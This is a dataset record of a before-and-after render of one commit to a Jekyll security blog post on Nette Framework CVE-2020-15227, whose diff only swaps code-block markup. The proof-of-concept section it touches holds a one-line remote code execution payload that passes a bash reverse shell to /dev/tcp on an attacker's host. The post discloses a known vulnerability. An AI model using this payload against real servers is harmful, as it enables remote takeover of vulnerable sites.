

Before and after one commit to Viralmaniar/viralmaniar.github.io, a Jekyll site: the page built from _posts/2020-16-10-Nette Framework: CVE-2020-15227.md, in a window 1280 px wide and 900 px high, scrolled down 520 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

Commit message:
Update 2020-16-10-Nette Framework: CVE-2020-15227.md

````diff
--- a/_posts/2020-16-10-Nette Framework: CVE-2020-15227.md
+++ b/_posts/2020-16-10-Nette Framework: CVE-2020-15227.md
@@ -25,9 +25,9 @@ Packages nette/application versions prior to 2.2.10, 2.3.14, 2.4.16, 3.0.6 and n
 Thanks to Cyku Hong
 
 # Proof of Concept:
-{% highlight python linenos%}
+```
 /nette.micro?callback=shell_exec&cmd=bash%20-i%20>&%20/dev/tcp/'+lhost+'/'+lport+'0>&1
-{% endhighlight %}
+```
 
 # Impact:
 
````
